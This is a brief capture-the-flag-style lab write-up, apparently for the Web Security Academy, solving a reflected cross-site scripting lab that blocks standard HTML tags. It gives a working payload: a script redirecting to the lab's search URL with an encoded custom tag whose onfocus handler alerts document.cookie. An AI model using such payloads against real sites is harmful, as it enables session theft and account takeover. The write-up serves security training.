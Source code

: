 *This lab blocks all HTML tags except custom ones.
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.*

Inserted the following payload that has a custom tag in my exploit:
```
<script>
location = 'https://0af3003c031bfb3987e749b200fc0013.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
![[Screenshot 2024-05-15 at 1.39.52 PM.png]]
This solves the lab!